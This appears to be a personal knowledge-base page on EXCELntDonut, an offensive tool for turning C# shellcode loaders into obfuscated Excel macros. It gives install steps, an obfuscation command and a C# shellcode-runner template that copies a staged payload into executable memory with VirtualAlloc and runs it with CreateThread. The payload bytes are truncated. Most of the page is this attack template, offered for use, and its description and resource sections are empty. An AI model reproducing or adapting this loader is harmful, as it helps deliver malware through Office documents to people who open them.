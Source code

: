 burp---
creation date: January 18th 2022
last modified date: January 18th 2022
aliases: []
tags: #🧰
---

Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[ExcelNTDonut]]  
___

## Description:


## Installation
```bash 
git clone https://github.com/FortyNorthSecurity/EXCELntDonut.git
cd EXCELntDonut
sudo ./install.sh 
```

## Commands

```bash
EXCELntDonut -f excelnt-https.cs --obfuscate -o excelnt-https-obfuscate.txt
```

![[HexDump#Bin to C]]

Get payload byte size
```bash
du -b *.bin
```

## Template 

```csharp 
using System;
using System.Runtime.InteropServices;
using System.Diagnostics;

namespace Registration
{

	public class RegistrationAssembly
	{
		public static void Main(string[] key)
		{
			
			// Staged payload
            byte[] buf = new byte[943] { 0xfc, 0x48, 0xa9, ... };
			IntPtr funcAddr = VirtualAlloc(
                              IntPtr.Zero,
                              (ulong)buf.Length,
                              (uint)StateEnum.MEM_COMMIT, 
                              (uint)Protection.PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, (IntPtr)(funcAddr), buf.Length);

            IntPtr hThread = IntPtr.Zero;
            uint threadId = 0;
            IntPtr pinfo = IntPtr.Zero;

            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }


        [DllImport("kernel32.dll")]
        private static extern IntPtr VirtualAlloc(
            IntPtr lpStartAddr,
            ulong size, 
            uint flAllocationType, 
            uint flProtect);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(
            uint lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr param,
            uint dwCreationFlags,
            ref uint lpThreadId);

        [DllImport("kernel32.dll")]
        private static extern uint WaitForSingleObject(
            IntPtr hHandle,
            uint dwMilliseconds);

        public enum StateEnum
        {
            MEM_COMMIT = 0x1000,
            MEM_RESERVE = 0x2000,
            MEM_FREE = 0x10000
        }

        public enum Protection
        {
            PAGE_READONLY = 0x02,
            PAGE_READWRITE = 0x04,
            PAGE_EXECUTE = 0x10,
            PAGE_EXECUTE_READ = 0x20,
            PAGE_EXECUTE_READWRITE = 0x40,
        }
		

		
	}
}
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 18th 2022 (01:31 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
